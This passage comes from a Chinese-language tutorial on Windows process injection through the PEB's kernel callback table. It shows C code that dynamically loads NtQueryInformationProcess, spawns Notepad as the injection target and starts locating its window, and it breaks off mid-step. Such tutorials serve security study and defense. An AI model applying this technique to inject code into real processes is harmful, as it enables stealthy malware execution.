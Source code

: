 ### 步骤 2 - 加载 NtQueryInformationProcess

ntdll.dll 的 NtQueryInformationProcess 函数是一个低级别 Windows API 函数，它提供对有关进程的特定信息的访问，包括进程环境块 （PEB）。PEB 包含内核回调表等结构，该表存储指向各种回调函数的指针。此函数必须动态加载，因为它通常无法通过标准 Windows 标头访问。

    typedef NTSTATUS( NTAPI* pNtQueryInformationProcess )( HANDLE, PROCESSINFOCLASS, PVOID, ULONG, PULONG );
    void LoadNtQueryInformationProcess( pNtQueryInformationProcess &NtQueryInformationProcess ) {
        printf( "[*] Loading NtQueryInformationProcess...\n" );
        HMODULE hNtdll = GetModuleHandleA( "ntdll.dll" );
        if ( hNtdll ) {
            NtQueryInformationProcess = ( pNtQueryInformationProcess ) GetProcAddress( hNtdll, "NtQueryInformationProcess" );
            if ( NtQueryInformationProcess ) {
                printf( "[+] NtQueryInformationProcess loaded successfully at address: 0x%p\n", NtQueryInformationProcess );
            } else {
                printf( "[-] Failed to resolve NtQueryInformationProcess address.\n" );
            }
        }
    }


**详细说明**

*   GetModuleHandle 会将ntdll.dll加载到进程中，从而访问其函数。
*   GetProcAddress 检索 NtQueryInformationProcess 的地址，以便稍后调用此函数以收集有关目标进程的详细信息。

### 步骤 3 — 启动 Target 流程

进程注入首先创建一个 Notepad 实例，该实例将用作注入代码的目标。此示例使用 Notepad，因为它是一个简单、众所周知的应用程序，允许对注射过程进行受控测试。

    STARTUPINFO si = { sizeof( si ) };
    PROCESS_INFORMATION pi;
    
    printf( "[*] Creating new Notepad process...\n" );
    if ( !CreateProcess( L"C:\\Windows\\System32\\notepad.exe", NULL, NULL, NULL, FALSE, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi ) ) {
        printf( "[-] Failed to create Notepad process. Error: %d\n", GetLastError() );
        return -1;
    }
    printf( "[+] Notepad process created successfully. PID: %d\n", pi.dwProcessId );


**详细说明**

*   CreateProcess 在新控制台中启动记事本，并将进程信息存储在 pi 中。生成的进程 ID （pi.dwProcessId） 是必不可少的，因为它标识了记事本进程，以便进行后续的内存操作。

### 第 4 步 — 找到目标窗口和进程 ID

该代码找到记事本的窗口句柄并检索其进程 ID。此句柄提供与 Notepad 的连接，从而可以打开句柄来操作其内存。

    HWND hWindow = NULL;
    DWORD waitTime = 0;
    const DWORD MAX_WAIT_TIME = 10000;
    